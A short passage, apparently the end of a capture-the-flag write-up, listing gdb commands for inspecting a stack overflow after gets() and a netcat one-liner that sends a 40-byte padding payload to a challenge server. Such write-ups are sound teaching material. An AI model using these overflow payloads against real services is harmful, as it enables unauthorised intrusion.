#   disassemble main
#
#   break *main+54          ; right after gets() returns, before the cmpq check
#   run < payload.bin
#   p/x number
#   x/8bx &number
#   p/x &name
#   p/x &number
#   x/48bx &name

# Deliver the exploit
python3 exploit.py

# Or directly via netcat, no script required
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40+b"B\n")' | nc chal.sigpwny.com 1374
```

---

